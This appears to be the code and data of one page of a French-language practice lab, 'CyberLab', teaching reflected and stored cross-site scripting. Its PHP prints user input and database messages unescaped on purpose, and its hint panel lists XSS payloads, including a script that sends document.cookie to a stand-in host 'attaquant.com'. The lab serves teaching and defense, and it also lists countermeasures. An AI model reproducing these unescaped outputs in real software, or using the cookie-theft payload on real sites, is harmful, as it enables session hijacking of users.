
The page /labs/xss/index.php?level=2 on the database its author committed.
### tables this page shows
CREATE TABLE IF NOT EXISTS messages (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50),
    message TEXT,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

### labs/xss/index.php (the view, shortened to what this page needs)
<?php
$level = $_GET['level'] ?? '1';
$messages = [];
if ($level == '2') {
    $db = getVulnDB();
    $res = $db->query("SELECT * FROM messages ORDER BY created_at DESC LIMIT 10");
    while ($row = $res->fetch_assoc()) {
        $messages[] = $row;
    }
}
?>
<!DOCTYPE html>
<html lang="fr">
<head>
    <link rel="stylesheet" href="/KaliTest/assets/css/style.css">
</head>
<body>
    <nav class="navbar">
        <div class="nav-brand">
            <div class="brand-icon">⬡</div>
            <span class="brand-name">CYBER<span class="accent">LAB</span></span>
        </div>
        <div class="nav-status" style="margin-right:auto">
            <div class="status-dot"></div>
            <span class="status-text" id="nav-time"></span>
        </div>
        <div class="nav-links">
            <a href="/KaliTest/" class="nav-link">Accueil</a>
            <a href="/KaliTest/labs/" class="nav-link">Labs</a>
        </div>
    </nav>
    <div class="page-wrapper">
        <div class="page-header">
            <p class="page-breadcrumb"><a href="/KaliTest/">Accueil</a> / <a href="/KaliTest/labs/">Labs</a> / XSS</p>
            <h1 class="page-title">💉 CROSS-SITE SCRIPTING LAB</h1>
            <p class="page-desc">Injectez du JavaScript malveillant pour voler des cookies, rediriger des utilisateurs ou exécuter du code arbitraire dans le navigateur.</p>
        </div>
        <div style="display:flex; gap:.6rem; margin-bottom:2rem; flex-wrap:wrap">
            <a href="?level=1" class="lab-btn" style="<?= $level=='1'?'background:rgba(0,255,136,.2); border-color:var(--neon-green)':'' ?>">Niveau 1 — Reflected XSS</a>
            <a href="?level=2" class="lab-btn" style="<?= $level=='2'?'background:rgba(0,255,136,.2); border-color:var(--neon-green)':'' ?>">Niveau 2 — Stored XSS</a>
            <a href="?level=3" class="lab-btn" style="<?= $level=='3'?'background:rgba(0,255,136,.2); border-color:var(--neon-green)':'' ?>">Niveau 3 — DOM XSS</a>
        </div>
        <div class="lab-content">
            <div>
                <?php if ($level == '1'): ?>
                <div class="lab-panel">
                    <div class="panel-header">🎯 NIVEAU 1 — Reflected XSS (Formulaire de recherche)</div>
                    <div class="panel-body">
                        <p style="font-size:.85rem; color:var(--text-secondary); margin-bottom:1rem;">
                            Cette application de recherche affiche votre saisie sans l'encoder.
                            Le script est "réfléchi" depuis le serveur vers votre navigateur.
                        </p>
                        <form method="POST" action="?level=1">
                            <div class="form-group">
                                <label class="form-label">TERME DE RECHERCHE</label>
                                <input type="text" name="name" class="form-input"
                                       placeholder="Recherchez un produit..."
                                       value="<?= $_POST['name'] ?? ''  ?>">
                                <p class="form-hint">💡 Ce champ affiche directement votre input — injectez du JS</p>
                            </div>
                            <button type="submit" class="btn-submit">🔍 RECHERCHER</button>
                        </form>
                        <?php if (isset($_POST['name'])): ?>
                        <div class="result-box" style="margin-top:1.5rem">
                            <div class="result-header">💬 RÉSULTATS POUR : <?= $_POST['name']  ?></div>
                            <div class="result-body" style="color:var(--text-secondary); font-size:.85rem">
                                Aucun produit trouvé correspondant à "<?= $_POST['name'] ?>".
                            </div>
                        </div>
                        <?php endif; ?>
                    </div>
                </div>
                <?php elseif ($level == '2'): ?>
                <div class="lab-panel" style="margin-bottom:1.5rem">
                    <div class="panel-header">🎯 NIVEAU 2 — Stored XSS (Forum de messages)</div>
                    <div class="panel-body">
                        <p style="font-size:.85rem; color:var(--text-secondary); margin-bottom:1rem;">
                            Les messages sont stockés en DB et affichés à tous les utilisateurs <strong>sans encodage</strong>.
                            Un XSS stocké persiste et affecte tous les visiteurs.
                        </p>
                        <form method="POST" action="?level=2">
                            <div class="form-group">
                                <label class="form-label">PSEUDO</label>
                                <input type="text" name="username" class="form-input" placeholder="Votre pseudo" value="Hacker">
                            </div>
                            <div class="form-group">
                                <label class="form-label">MESSAGE</label>
                                <textarea name="message" class="form-textarea"
                                          placeholder="Écrivez un message... ou un payload XSS"></textarea>
                                <p class="form-hint">💡 Essayez : &lt;script&gt;alert('XSS Stored!')&lt;/script&gt;</p>
                            </div>
                            <button type="submit" class="btn-submit">📤 PUBLIER</button>
                        </form>
                    </div>
                </div>
                <div class="lab-panel">
                    <div class="panel-header">💬 MESSAGES DU FORUM (<?= count($messages) ?> messages)</div>
                    <div class="panel-body">
                        <?php foreach ($messages as $msg): ?>
                        <div style="padding:.8rem; border:1px solid var(--border-dim); border-radius:6px; margin-bottom:.8rem; background:rgba(255,255,255,.02)">
                            <div style="font-family:var(--font-mono); font-size:.7rem; color:var(--neon-blue); margin-bottom:.3rem">
                                👤 <?= $msg['username']  ?> — <?= $msg['created_at'] ?>
                            </div>
                            <div style="font-size:.85rem; color:var(--text-primary)">
                                <?= $msg['message']  ?>
                            </div>
                        </div>
                        <?php endforeach; ?>
                    </div>
                </div>
                <?php endif; ?>
            </div>
            <div class="hint-panel">
                <div class="hint-section">
                    <div class="panel-header">📖 GUIDE XSS</div>
                </div>
                <div class="hint-section">
                    <p class="hint-title">🎯 OBJECTIF</p>
                    <p class="hint-text">
                        Injectez du JavaScript qui s'exécute dans le navigateur.
                        Objectif final : voler le cookie de session avec
                        <code style="color:var(--neon-green)">document.cookie</code>.
                    </p>
                </div>
                <div class="hint-section">
                    <p class="hint-title">⚡ PAYLOADS</p>
                    <code class="hint-code">&lt;script&gt;alert(1)&lt;/script&gt;</code>
                    <code class="hint-code">&lt;img src=x onerror=alert(document.cookie)&gt;</code>
                    <code class="hint-code">&lt;svg onload=alert('XSS')&gt;</code>
                    <code class="hint-code">&lt;iframe src="javascript:alert(1)"&gt;</code>
                    <code class="hint-code">"&gt;&lt;script&gt;alert(1)&lt;/script&gt;</code>
                </div>
                <div class="hint-section">
                    <p class="hint-title">🍪 VOL DE COOKIE</p>
                    <p class="hint-text" style="font-size:.75rem">
                        <code style="color:var(--neon-yellow)">&lt;script&gt;document.location='http://attaquant.com/steal?c='+document.cookie&lt;/script&gt;</code>
                    </p>
                </div>
                <div class="hint-section">
                    <p class="hint-title">🛡️ DÉFENSES</p>
                    <p class="hint-text">
                        • htmlspecialchars() en PHP<br>
                        • Content Security Policy (CSP)<br>
                        • HTTPOnly cookies<br>
                        • DOMPurify pour innerHTML<br>
                        • X-XSS-Protection header
                    </p>
                </div>
            </div>
        </div>
    </div>
</body>
</html>

### rows shown on the page
messages: username "admin", created_at "2026-10-29 17:11:40", message "Bienvenue sur CyberLab ! Explorez les labs avec précaution."
messages: username "alice", created_at "2026-10-29 17:11:40", message "J'ai trouvé une super ressource sur les injections SQL !"
messages: username "bob", created_at "2026-10-29 17:11:40", message "Le lab XSS est vraiment bien fait pour apprendre."

### other values the page prints
count($messages) "3"
